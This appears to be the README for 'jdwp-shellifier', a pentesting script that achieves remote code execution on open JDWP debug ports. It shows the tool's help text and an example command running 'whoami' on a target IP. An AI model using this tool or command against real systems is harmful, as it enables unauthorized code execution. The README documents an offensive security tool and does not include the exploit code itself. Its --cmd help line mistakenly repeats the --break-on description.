

# JDWP exploitation script

## What is it ?
This exploitation script is meant to be used by pentesters against active JDWP service, in order to gain Remote Code Execution.

## How does it work ?
Well, in a pretty standard way, the script only requires a Python 2 interpreter:

	% python ./jdwp-shellifier.py -h
	usage: jdwp-shellifier.py [-h] -t IP [-p PORT] [--break-on JAVA_METHOD]
                          [--cmd COMMAND]

    Universal exploitation script for JDWP by @_hugsy_

    optional arguments:
    -h, --help            show this help message and exit
    -t IP, --target IP    Remote target IP (default: None)
    -p PORT, --port PORT  Remote target port (default: 8000)
    --break-on JAVA_METHOD
    Specify full path to method to break on (default:
    	java.net.ServerSocket.accept)
    	--cmd COMMAND         Specify full path to method to break on (default:
    		None)

## What is new ?
Specify `java.lang.String.indexOf` method to break on and echo the command execution result:

	$ python2 jdwp-shellifier.py -t 192.168.182.130 -p 8000 --break-on "java.lang.String.indexOf" --cmd "whoami"

